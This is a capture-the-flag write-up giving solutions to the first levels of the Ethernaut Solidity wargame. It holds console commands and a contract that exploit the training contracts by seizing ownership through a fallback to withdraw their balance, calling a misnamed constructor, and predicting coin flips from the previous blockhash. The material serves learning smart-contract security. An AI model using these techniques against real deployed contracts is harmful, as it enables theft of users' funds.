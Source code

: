 # Ethernaut

The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
Here are my solutions for each level.

## 0.Hello Ethernaut

```
> contract.info()
< [[PromiseResult]]: "You will find what you need in info1()."

> contract.info1()
< [[PromiseResult]]: "Try info2(), but with \"hello\" as a parameter."

> contract.info2("hello")
< [[PromiseResult]]: "The property infoNum holds the number of the next info method to call."

> contract.abi

> let x = await contract.infoNum()

> x.toString()
< '42'

> contract.info42()
< [[PromiseResult]]: "theMethodName is the name of the next method."

> contract.theMethodName()
< [[PromiseResult]]: "The method name is method7123949."

> contract.method7123949()
< [[PromiseResult]]: "If you know the password, submit it to authenticate()."

> contract.password()
< [[PromiseResult]]: "ethernaut0"

> contract.authenticate("ethernaut0")
```

Submit the instance by clicking the orange button.

```(-(-_(-_-)_-)-) Well done, You have completed this level!!!```

## 1. Fallback
```
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
```

Submit the instance by clicking the orange button.

```\,,/(◣_◢)\,,/ Well done, You have completed this level!!!```

## 2. Fallout
```
> contract.Fal1out()
```
Submit Instance

```☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!```

## 3. CoinFLip

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Win {
    
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip public coinflip;
    constructor(address conFlipAddress) public {
        coinflip = CoinFlip(conFlipAddress);
    }
    // address public coinflip_add = 0x0Fd8F81a893762013486d74b6b61fA0704d07D4b;
    
    function _guess() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```
Copy the Coin Flip contract into CoinFlip.sol and deploy win.sol. Call _guess() 10 times.

> contract.consecutiveWins()









